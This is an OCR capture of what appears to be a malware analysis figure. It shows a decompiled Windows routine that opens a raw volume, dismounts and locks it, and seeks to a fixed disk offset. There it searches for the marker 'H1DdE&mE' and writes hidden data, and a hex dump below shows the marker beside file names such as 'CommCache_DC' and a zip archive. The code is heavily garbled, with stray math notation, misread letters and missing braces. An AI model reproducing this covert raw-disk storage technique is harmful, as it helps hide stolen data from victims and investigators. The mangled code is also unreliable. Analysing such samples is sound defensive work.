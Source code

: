 15 CHAR FileName; // [esp+144h] [ebp-68h]   
16   
17 $\mathbf{\omega}\cup\mathbf{\beta}=\mathbf{\beta}\ a_{\mathbf{1}}\mathbf{\beta}_{\mathbf{3}}$   
18 v4 = a2;   
19 $\downarrow5=$ malloc(a4);   
20 lpBuffer $=~\mathrm{v}5$   
21 sprintf(&FileName, "\111.11%c:", v4);   
22 $\vee6=$ CreateFileA(&FileName, OxC0000000, 3u, 0, 3u, 0x8Ou, 0);   
23 if（ $v6==$ (HANDLE)-1 )   
24 return 0;   
25 DeviceIoControl(v6, FSCTL_DISMOUNT_vOLUME, 0, 0, 0, 0, &BytesReturned, 0);   
26 DeviceIoControl(v6, FSCTL_LOCK_VOLUME, 0, 0, 0, 0, &BytesReturned, 0);   
27 IDistanceToMove $=$ 1000000000;   
28 SetFilePointer(v6, 1000000000, 0, 0);   
29 memset(v5,0, a4);   
30 if ( !ReadFile(v6, v5, a4, &Number0fBytesRead, 0))   
31 return 0;   
32 while (1)   
33 {   
34 qmemcpy(&Str1, v5, 0x124u);   
35 v8 = 1strlenA("H1DdE&mE");   
36 if ( StrCmpNA(&Str1, "HIDdE&mE", v8) )   
37 break;   
38 lDistanceToMove $+=$ V13;   
39 SetFilePointer(v6, lDistanceToMove, 0, 0);   
40 v5 = lpBuffer;   
41 memset(lpBuffer, 0, a4);   
42 if (!ReadFile(v6, lpBuffer, a4, &NumberOfBytesRead, 0))   
43 return 0;   
44 }   
45 if ( SetFilePointer(v6, lDistanceToMove,0, 0) $!=-1$   
46 && WriteFile(v6, v9, nNumberofBytesToWrite, &NumberOfBytesRead, 0))   
47 {   
48 free(lpBuffer);   
49 CloseHandle(v6);   
50 result = 1;   
51   
52 else   
53 {   
54 CloseHandle(v6);   
55 result = 0;   
56 }   
57 return result;   
58}  

<html><body><table><tr><td>01000000000 01000000016</td><td>483144644 45266D45 0000000071DC2C00 00 DE: 20 00 43 6F 6D 6D 43 61 63 68</td><td>65 5F 43 00 00 00 00 00</td><td>H1DdE&mE.... q?, 7, . CommCache_DC HWRYC. zip. .</td></tr><tr><td>01000000032 01000000048 01000000064 01000000080 01000000096 01000000112 01000000128</td><td>48 57 52 59 43 2E 74 69 70 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01000000144 00 00 Q0 00 Q0 00 00 00 00 00</td><td>00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 们 00 00 00 00 00 00 00 00 00 00 00 QQ 00 00 00 00 00 00 00 Q0 00 00 00 00 00</td><td></td></tr></table></body></html>  
